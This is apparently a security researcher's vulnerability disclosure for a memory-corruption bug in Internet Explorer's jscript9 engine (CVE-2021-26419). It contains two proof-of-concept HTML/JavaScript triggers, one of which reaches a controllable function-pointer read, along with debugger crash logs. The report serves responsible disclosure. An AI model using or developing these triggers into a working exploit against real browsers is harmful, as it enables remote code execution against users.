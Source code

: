 EXP
---

    Internet Explorer: Memory corruption in jscript9.dll related to scope of the arguments object

    There is a vulnerability in jscript9 that could be potentially used by an attacker to execute arbitrary code when viewing attacker-controlled website in Internet Explorer. The vulnerability has been confirmed on Windows 10 64-bit with the latest security patches applied.

    The following minimal sample is sufficient to trigger the bug:

    ############################################################

    <!-- saved from url=(0014)about:internet -->
    <script>

    function main() {
      function v4(v5,v6) {
        with ({}) {
          arguments();
        }
      }
      for(var i=0; i <1; i++) v4(1);
    }
    alert('start');
    main();
    alert('end');

    </script>

    ############################################################

    When this sample is opened with Internet Explorer, it crashes inside jscript9!Js::JavascriptFunction::CallFunction<1> when dereferencing memory pointed to by eax.

    jscript9!Js::JavascriptFunction::CallFunction<1>+0x39:
    68c2d6e9 8bb850020000    mov     edi,dword ptr [eax+250h] ds:002b:00000250=????????

    On the first glance, it might look like a null pointer dereference, however the value of eax in this case was read from uninitialized memory. There are also different ways to trigger the crash when accessing the arguments object. The following sample demonstrates a crash when reading from a controllable address:

    ############################################################

     <!-- saved from url=(0014)about:internet -->
    <script>

    function test() {
      test.caller.arguments.length = (0x13371337>>1);
    }

    function main() {
      function v4(v5,v6) {
        test();
        with ({}) {
          arguments.length;
          arguments();
        }
      }
      for(var i=0; i <1; i++) v4(1);
    }
    alert('start');
    main();
    alert('end');

    </script>

    ############################################################

    This sample crashes in Js::JavascriptOperators::GetProperty_Internal when dereferencing address 0x13371337+40h:

    jscript9!Js::JavascriptOperators::GetProperty_Internal<0>+0x35:
    68b578b5 8b7840          mov     edi,dword ptr [eax+40h] ds:002b:13371377=????????

    The value read this way is used as a function pointer, thus demonstrating the vulnerability could be used for code execution.

    I haven't done the full root cause analysis (it will be easier to do with proper debug tooling for jscript9), but in both cases, the operations on 'arguments' object end up being performed on incorrect data. I suspect this is related to changing the scope, e.g. accessing an object at an incorrect stack slot due to scope change. Another possibility could be an incorrectly initialized arguments object or the corresponding local variable.

    Full debug log:

    ############################################################

    (1654.14e8): Access violation - code c0000005 (first chance)
    First chance exceptions are reported before any exception handling.
    This exception may be expected and handled.
    eax=13371337 ebx=0910bbe0 ecx=0910bbe0 edx=0910bbe0 esi=092b8240 edi=00000000
    eip=68b578b5 esp=053bc578 ebp=053bc590 iopl=0         nv up ei pl nz na pe nc
    cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010206
    jscript9!Js::JavascriptOperators::GetProperty_Internal<0>+0x35:
    68b578b5 8b7840          mov     edi,dword ptr [eax+40h] ds:002b:13371377=????????

    0:009> k
     # ChildEBP RetAddr
    00 053bc590 68b69075 jscript9!Js::JavascriptOperators::GetProperty_Internal<0>+0x35
    01 053bc5dc 68b9d19d jscript9!Js::InterpreterStackFrame::OP_ProfiledLdLen<Js::OpLayoutReg2_OneByte>+0x1f5
    02 053bc608 68b9c102 jscript9!Js::InterpreterStackFrame::Process+0x7fd
    03 053bc744 0b9a0fd9 jscript9!Js::InterpreterStackFrame::InterpreterThunk<1>+0x242
    WARNING: Frame IP not in any known module. Following frames may be wrong.
    04 053bc750 68c2d743 0xb9a0fd9
    05 053bc798 68b9ff61 jscript9!Js::JavascriptFunction::CallFunction<1>+0x93
    06 053bc7c8 68b9cb53 jscript9!Js::InterpreterStackFrame::OP_ProfiledCallI<Js::OpLayoutCallI_OneByte>+0x121
    07 053bc7f8 68b9c102 jscript9!Js::InterpreterStackFrame::Process+0x1b3
    08 053bc934 0b9a0fe1 jscript9!Js::InterpreterStackFrame::InterpreterThunk<1>+0x242
    09 053bc940 68c2d743 0xb9a0fe1
    0a 053bc988 68b9ff61 jscript9!Js::JavascriptFunction::CallFunction<1>+0x93
    0b 053bc9b8 68b9cb53 jscript9!Js::InterpreterStackFrame::OP_ProfiledCallI<Js::OpLayoutCallI_OneByte>+0x121
    0c 053bc9e8 68b9c102 jscript9!Js::InterpreterStackFrame::Process+0x1b3
    0d 053bcb14 0b9a0fe9 jscript9!Js::InterpreterStackFrame::InterpreterThunk<1>+0x242
    0e 053bcb20 68c2d743 0xb9a0fe9
    0f 053bcb60 68b4eca9 jscript9!Js::JavascriptFunction::CallFunction<1>+0x93
    10 053bcbd4 68b4ebbc jscript9!Js::JavascriptFunction::CallRootFunctionInternal+0xb5
    11 053bcc2c 68b4eb56 jscript9!Js::JavascriptFunction::CallRootFunction+0x4d
    12 053bcc74 68b4eabd jscript9!ScriptSite::CallRootFunction+0x42
    13 053bccb0 68b5256e jscript9!ScriptSite::Execute+0xae
    14 053bcd48 68b4e9aa jscript9!ScriptEngine::ExecutePendingScripts+0x1bf
    15 053bcde0 68c27cca jscript9!ScriptEngine::ParseScriptTextCore+0x32c
    16 053bce30 695a9cc1 jscript9!ScriptEngine::ParseScriptText+0x5a
    17 053bce68 694a0493 MSHTML!InitializeLocalHtmlEngine+0x1f11
    18 053bcec0 694b7fe7 MSHTML!GetWebPlatformObject+0x16c93
    19 053bcf30 694b8493 MSHTML!GetWebPlatformObject+0x2e7e7
    1a 053bd01c 694b87be MSHTML!GetWebPlatformObject+0x2ec93
    1b 053bd098 694b8146 MSHTML!GetWebPlatformObject+0x2efbe
    1c 053bd0b8 694d79d9 MSHTML!GetWebPlatformObject+0x2e946
    1d 053bd110 694d6bb9 MSHTML!UninitializeLocalHtmlEngine+0x8b49
    1e 053bd134 694d653e MSHTML!UninitializeLocalHtmlEngine+0x7d29
    1f 053bd25c 695d4891 MSHTML!UninitializeLocalHtmlEngine+0x76ae
    20 053bd27c 695d47fb MSHTML!DllGetClassObject+0x7291
    21 053bd29c 695d478d MSHTML!DllGetClassObject+0x71fb
    22 053bd2e8 695d46a7 MSHTML!DllGetClassObject+0x718d
    23 053bd300 6950dccc MSHTML!DllGetClassObject+0x70a7
    24 053bd378 6967d357 MSHTML!TravelLogCreateInstance+0x25cec
    25 053bd3c8 69510f32 MSHTML!DllCanUnloadNow+0x13957
    26 053bd3e4 76d0ef5b MSHTML!TravelLogCreateInstance+0x28f52
    27 053bd410 76d05eca USER32!_InternalCallWinProc+0x2b
    28 053bd4f4 76d03c3a USER32!UserCallWinProcCheckWow+0x33a
    29 053bd568 76d03a00 USER32!DispatchMessageWorker+0x22a
    2a 053bd574 6ad32cd4 USER32!DispatchMessageW+0x10
    2b 053bf720 6ad31db3 IEFRAME!Ordinal245+0x1cb4
    2c 053bf7e0 6a5bcb2c IEFRAME!Ordinal245+0xd93
    2d 053bf7f8 731e26ed msIso+0x1cb2c
    2e 053bf830 756cfa29 IEShims!NS_CreateThread::AutomationIE_ThreadProc+0x8d
    2f 053bf840 770676b4 KERNEL32!BaseThreadInitThunk+0x19
    30 053bf89c 77067684 ntdll!RtlGetAppContainerNamedObjectPath+0xe4
    31 053bf8ac 00000000 ntdll!RtlGetAppContainerNamedObjectPath+0xb4

    ############################################################


    This bug is subject to a 90 day disclosure deadline. After 90 days elapse,
    the bug report will become visible to the public. The scheduled disclosure
    date is 2021-05-13. Disclosure at an earlier date is possible if
    agreed upon by all parties.


    Related CVE Numbers: CVE-2021-26419.



    Found by: ifratric@google.com